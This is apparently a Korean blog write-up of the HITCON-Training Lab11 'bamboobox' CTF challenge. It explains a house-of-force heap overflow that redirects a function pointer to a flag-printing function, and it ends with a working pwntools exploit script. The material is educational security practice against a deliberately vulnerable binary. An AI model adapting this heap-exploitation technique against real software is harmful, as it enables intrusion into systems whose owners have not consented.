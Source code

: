 ```yaml
---
title: "[HITCON-Training]Lab11"
date: 2020-1-11
ctf: HITCON-Training
layout: post
tags: [hitcon]
categories: [HITCON-Training]
---
```


checksec은 그냥 pie빼고 다 걸려있다.

```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

magic함수가 있는데 이거 호출해주면 될거같다.

```c
void __noreturn magic()
{
  int fd; // ST0C_4
  char buf; // [rsp+10h] [rbp-70h]
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fd = open("/home/bamboobox/flag", 0);
  read(fd, &buf, 0x64uLL);
  close(fd);
  printf("%s", &buf);
  exit(0);
}
```

main 함수를 보면 *v3에 `hello_message` *v3[1]에 `goodbye_message` 각각 힙 영역에 저장해둔다. 

처음에 `hello_message` 를 실행해준다. 근데 case 5 보면  `(v3[1])(&buf, &buf);` 이런게 있는데 여기서 함수 포인터를 magic으로 바꿔서 실행해주면 될거다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // [rsp+8h] [rbp-18h]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = malloc(16uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  (*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        (v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

house of force 문제다. 익스 시나리오는 아래와 같다.

1. add로 할당

32만큼 할당해줬다.

![](https://user-images.githubusercontent.com/32904385/72174400-058c5400-341d-11ea-8955-d64477b008df.png)

2. top chunk 덮음

edit에서 heap overflow나서 top chunk header랑 size부분 덮어준다. 

![](https://user-images.githubusercontent.com/32904385/72174402-0624ea80-341d-11ea-95a9-35d8a90aa9be.png)

3. add로 main_arena.top 변경

malloc(-88)

![](https://user-images.githubusercontent.com/32904385/72174403-06bd8100-341d-11ea-8a9c-8dbf47979d00.png)

4. add로 `goodbye_message` 함수 포인터 `magic` 으로 덮음

5. 5번 메뉴 호출하면 `(v3[1])(&buf, &buf);` 은 `magic` 함수를 가르키고 있어서 magic함수 호출

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./bamboobox')
p = process('./bamboobox')
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x,y: p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
magic = e.symbols['magic']

def show():
	sla(':','1')

def add(length,name):
	sla(':','2')
	sla(':',str(length))
	sa(':',name)

def edit(index,length,name):
	sla(':','3')
	sla(':',str(index))
	sla(':',str(length))
	sa(':',name)

def remove(index):
	sla(':','4')
	sla(':',str(index))

add(32,'AAAA')
edit(0,48,'B'*40 + p64(0xffffffffffffffff)) # top chunk dup
#raw_input()
add(-88,'BBBB')
add(16, p64(magic)*2)
#raw_input()
sla(':','5')

p.interactive()
```

